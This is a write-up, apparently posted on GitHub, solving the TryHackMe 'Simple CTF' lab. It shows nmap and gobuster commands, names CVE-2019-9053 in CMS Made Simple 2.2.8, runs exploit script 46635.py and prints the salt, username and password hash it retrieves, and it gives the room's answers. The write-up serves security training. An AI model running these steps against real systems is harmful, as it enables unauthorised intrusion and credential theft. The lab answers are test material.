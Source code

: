 ## Simple CTF | TryHackMe

This is the link for the room [Simple CTF](https://tryhackme.com/room/easyctf)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/f28ade2b51eb7aeeac91002d41f29c47.png" width="500px" align="center">

---
How many services are running under port 1000?

**Answer: 2**

`nmap -sC -sV -p- -T4 [MACHINE_IP]`

-sC = Run the default script.

-sV = Version of services.

-p- = Checking for all port.

-T4 = Scanning speed.

<img src="https://user-images.githubusercontent.com/67650329/189660269-6d264b85-2fbe-424e-b42e-f7b0c03982be.png" width="500px" align="center">

What is running on the higher port?

**Answer: ssh**

What's the CVE you're using against the application?

**Answer: CVE-2019-9053**

`gobuster dir -u 10.10.186.113 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -n`

<img src="https://user-images.githubusercontent.com/67650329/189661354-17a78b0e-c38c-4343-8a96-f1bb51cf6978.png" width="500px" align="center">

Go to the website and see the version

<img src="https://user-images.githubusercontent.com/67650329/189661682-00831dfc-7a81-4fe3-b73d-c996903928e9.png" width="500px" align="center">

Search on your search engine `CMS Made Simple 2.2.8 CVE`

<img src="https://user-images.githubusercontent.com/67650329/189662143-9df708f0-c8ed-4b19-8eac-214aa08071b4.png" width="500px" align="center">

What's the password?

**Answer: Secret**

`python3 46635.py -u [MACHINE_IP]`

[+] Salt for password found: 1dac0d92e9fa6bb2

[+] Username found: mitch

[+] Email found: admin@admin.com

[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96

Use Hashcat to see the password user mitch
